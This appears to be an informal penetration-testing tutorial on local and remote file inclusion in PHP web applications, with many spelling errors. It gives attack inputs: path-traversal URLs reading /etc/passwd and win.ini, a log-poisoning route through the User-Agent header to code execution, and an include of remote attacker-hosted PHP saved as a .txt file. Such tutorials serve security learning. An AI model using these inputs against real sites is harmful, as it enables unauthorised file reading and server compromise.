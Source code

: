 File Inclusion:
===
File inclusion is a web security vulnerability 
in which user supplied data is include in include() without sanitization on the web application.RFI

File inclusion is classified as two types:

1.LFI(Local file inclusion)

2.RFI(Remote File Inclusion)

<h3>LFI<h3>

Local File Inclusion (LFI) allows an attacker to include files on a server through the web browser. 
This vulnerability exists when a web application includes a file without correctly sanitising the input, 
allowing and attacker to manipulate the input and inject path traversal characters and include other files from the web server.

<h3>Identification & EXPLOITATION</h3>

LFI vulnerabilities are easy to identify and exploit. Any script that includes a file from a web server is a good candidate for further LFI testing, 
For example:

               /script.php?page=/windows/win.ini
     
Internally we check log file in "/xampp/apache/logs/access.log "
we will find the user contrallable data in the present activity,then paste the code in user contralable field such as "USER AGENT:"
in the last paste the path of access.log in web browser and in result the code will be executed.

<h3>In linux</h3>
A penetration tester would attempt to exploit this vulnerability by manipulating the file location parameter, 
such as:

           /script.php?page=../../../../../../../../etc/passwd

The above is an effort to display the contents of the /etc/passwd file on a UNIX / Linux based system.

RFI
===
A remote file inclusion (RFI) occurs when a file from a remote web server is inserted into a web page. 
This can be done on purpose to display content from a remote web application. 

<h3>Identification & Exploitation</h3>

1.Go to your target website and find any parameter that loads the content of any remote websites
for eg. url, page, file etc. (Use Spider option of burp for finding parameters)

2.suppose we find vulnerbaility in "page" parameter

For example:

     /script.php?page=http://www.webhosted.com/b0x.txt 


Note:- If we find any problem or application not allow to fetch data then we will ecxploit it in burp suite
and can fetch the data from the remote URL.

if we are appending php code in the b0x file then we have to save it as .txt file on the internet based server.
This is how we can exxploit RFI.




THANKS
ROHIT TANWAR






